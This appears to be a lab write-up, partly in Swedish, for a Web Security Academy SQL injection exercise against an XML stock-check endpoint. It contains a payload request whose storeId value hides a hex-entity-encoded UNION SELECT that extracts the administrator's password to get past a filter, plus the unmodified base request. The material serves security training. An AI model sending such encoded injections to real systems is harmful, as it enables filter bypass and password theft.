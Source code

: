 Identify the susceptible param and the encoding som den sväljer. Notera att det inte är en *'* efter 1 då den tolkas som en integer och då är det bara att fortsätta skriva som vanligt
##### Payload request
POST /product/stock HTTP/2
Host: 0a510051033c36db83fcfa8300b200de.web-security-academy.net
Cookie: session=wWslsPV2FFhvfftbN5i9i3cGOJ6ckRxx
Content-Length: 496
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Content-Type: application/xml
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept: */*
Origin: https://0a510051033c36db83fcfa8300b200de.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a510051033c36db83fcfa8300b200de.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

```<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>2</productId><storeId>1 &#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x57;&#x48;&#x45;&#x52;&#x45;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x3d;&#x27;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x27;</storeId> </stockCheck>```


##### Base request
POST /product/stock HTTP/2
Host: 0a3c0091038ee7da805f9ea1004000b0.web-security-academy.net
Cookie: session=ggYKCz8IGNrE4bzBVHR00mILvUnpJztF
Content-Length: 111
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Content-Type: application/xml
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept: */*
Origin: https://0a3c0091038ee7da805f9ea1004000b0.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3c0091038ee7da805f9ea1004000b0.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>
1
</productId><storeId>1</storeId></stockCheck>
